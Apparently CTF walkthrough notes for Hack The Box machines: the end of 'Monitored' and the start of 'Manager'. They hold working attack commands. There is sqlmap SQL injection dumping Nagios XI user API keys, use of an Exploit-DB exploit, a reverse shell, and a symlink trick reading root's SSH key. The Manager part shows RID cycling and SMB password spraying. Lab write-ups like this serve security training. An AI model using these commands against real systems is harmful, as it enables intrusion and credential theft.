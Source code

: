 ```
9. cmd: sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --batch -p id --cookie="nagiosxi=gmmapc26k5sr7pbm1emj9u4cmc" -D nagiosxi --tables
  (find many tables, "xi_users" is interesting)
10. cmd: sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --batch -p id --cookie="nagiosxi=gmmapc26k5sr7pbm1emj9u4cmc" -D nagiosxi -T xi_users --dump
  (dump xi_users table, and find api keys of "admin")
11. exploit https://www.exploit-db.com/exploits/44969 manually, from the step after getting api key.
    (same as manually do add_admin() function.)
12. manually create commands in "Core Config Manager", which is a reverse shell. goto localhost -> run this command.
    (same as execute_cmdstager() in https://www.exploit-db.com/exploits/44969, check how it works later.)
13. get user "nagios"
14. sudo -l, find it can execute getprofile.sh, which contains vuln as
	if [ -f /usr/local/nagiosxi/tmp/phpmailer.log ]; then
	 tail -100 /usr/local/nagiosxi/tmp/phpmailer.log > 
	"/usr/local/nagiosxi/var/components/profile/$folder/phpmailer.log"
	fi
15. ln -s /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
    (let the previous command, read from root id_rsa)
	    /usr/local/nagiosxi/tmp$ ls -la
	ls -la
	total 12
	drwsrwsr-x  3 www-data nagios 4096 Dec 16 19:34 .
	drwxr-xr-x 10 root     nagios 4096 Nov  9  2023 ..
	drwxr-sr-x  2 root     nagios 4096 Nov 10  2023 migrate
	lrwxrwxrwx  1 nagios   nagios   17 Dec 16 19:34 phpmailer.log -> /root/.ssh/id_rsa
16. run: sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 1
17. Get root private key.
	cp /usr/local/nagiosxi/var/components/profile.zip /tmp/
	cd /tmp
	unzip profile.zip
	cat profile-<ID>/phpmailer.log 
```

## HTB: Manager 16 Mar 2024
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7
```
1. smb enumerate: $ smbclient -L \\\\10.129.136.168\\ -N 
2. perform RID cycling: impacket-lookupsid anonymous@manager.htb -no-pass
  (It involves sequentially querying Security Identifiers (SIDs) by incrementing the Relative Identifier (RID) portion.)
3. Get a list of user names in type "SidTypeUser".
  (others are "SidTypeGroup", "SidTypeAlias", etc)
4. attempt SMB authentication with passwords same as the usernames.
   cmd: netexec smb 10.10.11.236 -u usernames.txt -p usernames.txt --no-bruteforce
  (NetExec is the successor of the no-longer maintained CrackMapExec project)
  (Found user "operator" with pass "operator".)
  Test the user "operator" and another user "zhong":
        [★]$ smbclient -L //10.129.136.168 -U operator
	Password for [WORKGROUP\operator]: {input operator}
	
		Sharename       Type      Comment
		---------       ----      -------
		ADMIN$          Disk      Remote Admin
		C$              Disk      Default share
		IPC$            IPC       Remote IPC
		NETLOGON        Disk      Logon server share 
```